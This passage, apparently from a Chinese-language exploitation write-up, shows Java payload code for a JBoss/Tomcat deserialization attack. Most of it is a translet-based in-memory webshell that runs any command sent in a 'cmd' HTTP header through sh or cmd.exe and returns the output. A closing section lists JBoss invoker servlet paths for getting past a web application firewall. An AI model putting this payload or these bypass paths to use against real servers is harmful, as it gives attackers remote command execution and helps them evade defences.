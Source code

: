 ```java
                                org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request)httpConnection;
                                org.apache.catalina.connector.Response response = request.getResponse();
                                response.setStatus(200);
                                boolean isLinux = true;
                                String osTyp = System.getProperty("os.name");
                                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                                    isLinux = false;
                                }
                                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getHeader("cmd")} : new String[]{"cmd.exe", "/c", request.getHeader("cmd")};
                                InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();
                                Scanner scanner = new Scanner(inputStream).useDelimiter("\\a");
                                String output = scanner.hasNext() ? scanner.next() : "";
                                response.getWriter().write(output);
                                response.getWriter().flush();
                            }
                        }
                    } catch (IllegalAccessException e) {
                    }
                }
            }
        } catch (Exception e) {
        }
    }

    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }
    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }
}
```



## 绕过waf

```java
/invoker/readonly/*
/invoker/JMXInvokerServlet/*
/invoker/EJBInvokerServlet/*
/invoker/JMXInvokerHAServlet/*
/invoker/EJBInvokerHAServlet/*
/invoker/restricted/JMXInvokerServlet/* (需要登录)
```
